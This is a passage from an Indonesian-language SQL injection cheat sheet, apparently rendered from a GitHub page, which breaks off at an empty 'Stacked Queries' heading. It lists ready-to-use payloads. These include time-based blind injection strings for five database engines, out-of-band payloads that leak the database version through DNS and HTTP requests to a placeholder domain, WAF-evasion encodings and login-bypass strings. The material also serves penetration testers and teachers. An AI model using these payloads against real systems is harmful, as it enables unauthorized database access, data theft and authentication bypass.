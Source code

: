 | Deskripsi                     | Payload                                                                                         |
| ----------------------------- | ----------------------------------------------------------------------------------------------- |
| Delay jika benar (MySQL)      | `' AND IF(SUBSTRING(user(),1,1)='d', SLEEP(5), 0) --`                                           |
| Delay jika benar (PostgreSQL) | `' AND (SELECT CASE WHEN (SUBSTRING(user(),1,1)='p') THEN pg_sleep(5) ELSE pg_sleep(0) END) --` |
| Delay jika benar (MSSQL)      | `; IF (SUBSTRING(DB_NAME(),1,1)='m') WAITFOR DELAY '0:0:5' --`                                  |
| Delay jika benar (Oracle)     | `' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5) --`                                                   |
| Delay jika benar (SQLite)     | `' AND 1=LIKE('ABC',UPPER(HEX(RANDOMBLOB(100000000)))) --`                                      |

---

### c. Out-of-Band (OOB) SQLi

| Deskripsi                  | Payload                                                                                |
| -------------------------- | -------------------------------------------------------------------------------------- |
| DNS Lookup (Windows/MySQL) | `' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT version()),'.nama-domain.com\\a')) --` |
| HTTP Request (Oracle)      | `' AND UTL_HTTP.REQUEST('http://...')`                                                 |
| HTTP Request (MSSQL)       | `; EXEC master..xp_dirtree '\\nama-domain.com\test'; --`                               |

---

## 4. Teknik Tambahan & Bypass

### a. Bypass Filter & WAF

- **Encoding:**
  - URL Encoding: `%27` untuk `'`
  - Double URL Encoding: `%2527`
  - Hex Encoding: `0x61646d696e`
  - Unicode Encoding: `\u0027`
- **Pengganti Spasi:**
  - `/**/`
  - `/*!*/`
  - Tab (`%09`), newline (`%0A`)

### b. Authentication Bypass Payloads

- `' OR '1'='1`
- `' OR 1=1--`
- `' OR 'a'='a'--`
- `' OR 1=1#`

### c. Second-Order SQL Injection

- Data aman saat input bisa berbahaya saat digunakan di query lain, contoh: token reset password yang disimpan di DB dan dipanggil kembali tanpa sanitasi.

### d. Stacked Queries (Multiple Statements)
